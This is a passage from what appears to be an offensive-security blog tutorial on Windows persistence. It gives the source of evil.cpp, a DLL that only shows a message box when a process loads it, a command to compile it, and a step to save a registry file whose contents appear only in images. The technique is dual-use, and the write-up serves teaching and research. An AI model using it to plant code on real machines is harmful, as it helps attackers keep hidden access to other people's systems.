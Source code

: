 ![pers](/assets/images/53/2022-05-02_16-37.png){:class="img-responsive"}    

As you can see, we are placing custom DLL to be executed:

![pers](/assets/images/53/2022-05-02_16-39.png){:class="img-responsive"}    

For simplicity, as always I took all the same file from one of my [previous](/tutorial/2021/09/20/malware-injection-2.html) posts.

You can compile it from source code (`evil.cpp`):

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Then, just run:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/53/2022-05-02_17-04.png){:class="img-responsive"}    

Save reg file as `evil.reg`:

![pers](/assets/images/53/2022-05-02_18-22.png){:class="img-responsive"}    
